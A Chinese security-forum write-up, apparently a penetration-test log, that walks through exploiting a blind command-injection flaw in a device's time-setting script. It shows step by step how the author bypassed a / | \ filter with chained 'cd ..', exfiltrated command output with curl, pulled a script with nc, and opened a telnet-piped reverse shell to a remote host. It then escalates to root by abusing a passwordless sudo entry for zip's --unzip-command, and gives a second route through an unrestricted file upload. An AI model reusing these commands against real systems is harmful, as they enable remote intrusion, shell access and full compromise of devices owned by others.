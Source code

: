 在跟朋友一起渗透的时候发现个RCE

无回显，使用curl进行测试

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-14df209ed1951c1551e4c96a627a75743bd0bbf7.png)  
大哥服务器上有个接受参数回显的脚本，启动并监听

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ca9b9aa7e19620401b370026a56999f398371797.png)  
成功接收到该回显

time=`curl x.x.x.x -d "c=$(id)"`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-7b70793e41bc0338082abf6cc6938c90446922eb.png)  
尝试写入测试，失败

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-2233aeed75ba4cdefea2cbaba0123c3cc979f242.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c1d8fb27d3b834da776a2379b8cf3c06e3644115.png)  
尝试远程下载wget，powershell上线等方式，均失败

使用cat读取代码

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-036147204433634b7e33740d758868a31905211f.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-36ea33b31b950d856b659b3e3c712889f8b3cdca.png)  
简单说下代码，接受post的time参数，将T替换成空格，将/替换成-，然后把过滤过的参数放进SystemSetting\_setLocalTime函数当中

跟进函数，接收参数后拼接到$cmd\_date\_set中

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-d5b8f3bcc1c84c120e6115a80a8ee7f2fffed983.png)  
然后在48行中过滤掉|，然后拼接到exec中进行命令执行，其中|符号用不了，可以使用反引号来代替拼接

所以我们现在知道了屏蔽了 / | \\ 三个符号

梳理下思路，一般利用方式因为 /的原因，所以用不了http协议，无法尝试远程下载等方式，没有权限进行写入文件，那么现在几种方式进行bypass，第一种，替换/|\\符号，比如常见的空格符$IFS替换，第二种，进行提权写入文件，第三种，想办法再挖一个其他漏洞进行组合利用，第四种，尝试在其他目录写文件执行

那么先查看有哪些命令可用

使用compgen -c没有回显，echo $PATH只返回个H，最后使用busybox进行输出测试

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c31a4aed478db46cbb5fa96d86192a2636ef811e.png)  
常用的思路到这卡住了，尝试使用进行读取某一个字符并输出到当前目录，但发现该方法也无效，没有生成成功output.txt

dd if=1 bs=1 skip=9 count=1 status=none of=output.txt

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-3a54df1c078fb1f909fc03c9c1cd55af7f515c2a.png)  
继续想办法，虽然限制了/不能进行 cd ../..等，但是正常的cd ..是可以使用的

使用命令 cd ..; cd ..; cd ..; cd ..; cd tmp; nc x.x.x.x 81 &gt; 1.sh

发现是可以成功的

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-59bffaae434e9306b1cb86436f8eb95361291efb.png)  
经过测试，成功步骤如下

以下简称服务端，其中被控端为目标设备

1 服务端启用nc监听，并在被控端中写入命令

被控端：cd ..; cd ..; cd ..; cd ..; cd tmp; nc x.x.x.x 81 &gt; 1.sh

服务端：sudo nc -lvvnp 85

2 服务端写命令

telnet x.x.x.x 82 | /bin/sh | telnet x.x.x.x 83

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-26ce70f62e2890b36b479895e31cea6c6506ec2b.png)  
回车后打开burp

3 被控端写命令

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-97f091033ac7d52194f876267c15748b49ef83a5.png)  
time=`curl x.x.x.x -d "c=$(cd ..; cd ..; cd ..; cd ..; cd tmp; nc  x.x.x.x 85 > 1.sh)"`

4 发包，发现成功写入1.sh

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9123bf259afc13b76fd4d508c748847906ed6b7c.png)  
5 监听82,83端口

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-7b7fb4de83399aae66da4bb7689c32b182b57a01.png)  
并发包

time=`cd ..; cd ..; cd ..; cd ..; cd tmp;sh 1.sh`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c896382f7ace0b2e098f6caa67b58cf927d7b1b0.png)  
6 至此成功拿到shell

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-fa41540f1e080afdb330c64de5e77b93da3d9e64.png)  
7 进行提权

其中/etc/sudoers 设置了nobody可以使用sudo不需要输入密码的命令

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-46ac177c5f71dc3d400977b9463acc4e014d595d.png)  
又因为/usr/bin/zip 有一个参数--unzip-command可以执行命令

所以使用以下命令就可以直接进行提权

sudo /usr/bin/zip 1aca.zip /etc/passwd -T --unzip-command="sh -c /bin/sh"

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-1a2067fc72248f150eadee27829b134bb7864827.png)  
拿到root权限

第二种方法，根据文件代码，发现一个上传点如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-aad8389f36869ab4e0fc8baafc7d1ab1f46cf4ec.png)  
其中路径为/svr/www，没有到网站目录/www/，那么利用方法就是上传一个文件，在使用rce进行执行拿到shell，在34行有个简单的判断是否为zip格式文件，但是并没有限制后缀名等条件

简单写个poc

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-dd40dba9ae2a623b487a09a192444e94a32ae190.png)  
其中写入的内容如下

sudo /usr/bin/zip 1aca.zip /etc/syslog.conf -T --unzip-command="sh -c 'id &gt; /tmp/test.txt'"

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-444d3704604e8f3c5795f5016d70fb71895501d1.png)  
上传成功后跟之前的利用思路一样，跨目录进行读取

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-417ffd3cc38f7569e4c02f579d1044a554b648a6.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b7b182e07eef5f3222d613b20bbe5f2c98d353f2.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-7c4ab50e7a70b9f1a037482e358f0ccbdc102bc3.png)  
圆满成功！感谢@昭通早行网络科技有限公司的各位师傅不吝赐教！！！

文章有错误请联系我

微信 zacaq999